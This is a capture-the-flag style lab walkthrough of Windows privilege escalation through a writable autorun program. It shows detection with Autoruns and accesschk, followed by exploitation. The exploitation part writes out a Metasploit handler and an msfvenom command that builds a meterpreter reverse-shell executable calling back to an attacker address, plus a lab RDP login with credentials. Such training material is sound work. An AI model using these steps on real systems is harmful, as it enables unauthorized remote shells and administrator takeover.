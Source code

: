 # Exploit Autorun Startup Programs

Running Autoruns.exe from [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can view which programs that run from the autorun registry keys or folders. This tool also provides insight into Scheduled Tasks, Services, WinLogon, DLLS, and more.

Manual detection would require looking for entries in the following two registry keys:

```bash
PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

## Detection

Run Autoruns64.exe on the target system.

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

![autorun](images/autorun.png)

In Autoruns, click on the ‘`Logon`’ tab.
From the listed results, notice that the “`My Program`” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.

![logon](images/logon.png)

Run `accesschk64.exe` against `My Program`

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

From the output, notice that the “`Everyone`” user group has “`FILE_ALL_ACCESS`” permission on the “program.exe” file.

![everyone](images/everyone.png)

## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

Serve file on Python http server
Download from IE on target

![program](images/program.png)

Replace the “autorun” file program.exe on the target

![replace](images/replace.png)

## Logoff and Log Back On System

To simulate the privilege escalation effect, logoff and then log back on as an `administrator` user.

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ xfreerdp /v:10.10.215.72 /u:TCM /p:Hacker123 +clipboard
```

![run](images/run.png)

![shell](images/shell.png)
